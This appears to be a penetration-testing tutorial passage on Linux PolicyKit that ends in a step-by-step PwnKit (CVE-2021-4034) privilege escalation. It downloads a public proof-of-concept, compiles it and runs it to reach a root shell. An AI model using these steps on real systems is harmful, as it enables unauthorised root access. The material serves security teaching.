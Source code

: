PolicyKit (polkit) is an authorisation service on Linux-based operating systems that allows user software and system components to communicate with each other if the user software is authorized to do so. To check whether the user software is authorised for this instruction, polkit is asked. It is possible to set how permissions are granted by default for each user and application. For example, for each user, it can be set whether the operation should be generally allowed or forbidden, or authorisation as an administrator or as a separate user with a one-time, process-limited, session-limited, or unlimited validity should be required. For individual users and groups, the authorisations can be assigned individually.

Polkit works with two groups of files.

1. actions/policies (`/usr/share/polkit-1/actions`)
2. rules (`/usr/share/polkit-1/rules.d`)

Polkit also has `local authority` rules which can be used to set or remove additional permissions for users and groups. Custom rules can be placed in the directory `/etc/polkit-1/localauthority/50-local.d` with the file extension `.pkla`.

PolKit also comes with three additional programs:

- `pkexec` - runs a program with the rights of another user or with root rights
- `pkaction` - can be used to display actions
- `pkcheck` - this can be used to check if a process is authorized for a specific action

The most interesting tool for us, in this case, is `pkexec` because it performs the same task as `sudo` and can run a program with the rights of another user or root.

```shell-session
cyberslut@nix02:~$ # pkexec -u <user> <command>
cyberslut@nix02:~$ pkexec -u root id

uid=0(root) gid=0(root) groups=0(root)
```

In the `pkexec` tool, the memory corruption vulnerability with the identifier [CVE-2021-4034](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034) was found, also known as [Pwnkit](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034) and also leads to privilege escalation. This vulnerability was also hidden for more than ten years, and no one can precisely say when it was discovered and exploited. Finally, in November 2021, this vulnerability was published and fixed two months later.

To exploit this vulnerability, we need to download a [PoC](https://github.com/arthepsy/CVE-2021-4034) and compile it on the target system itself or a copy we have made.

```shell-session
cyberslut@nix02:~$ git clone https://github.com/arthepsy/CVE-2021-4034.git
cyberslut@nix02:~$ cd CVE-2021-4034
cyberslut@nix02:~$ gcc cve-2021-4034-poc.c -o poc
```

Once we have compiled the code, we can execute it without further ado. After the execution, we change from the standard shell (`sh`) to Bash (`bash`) and check the user's IDs.

```shell-session
cyberslut@nix02:~$ ./poc

# id

uid=0(root) gid=0(root) groups=0(root)
```

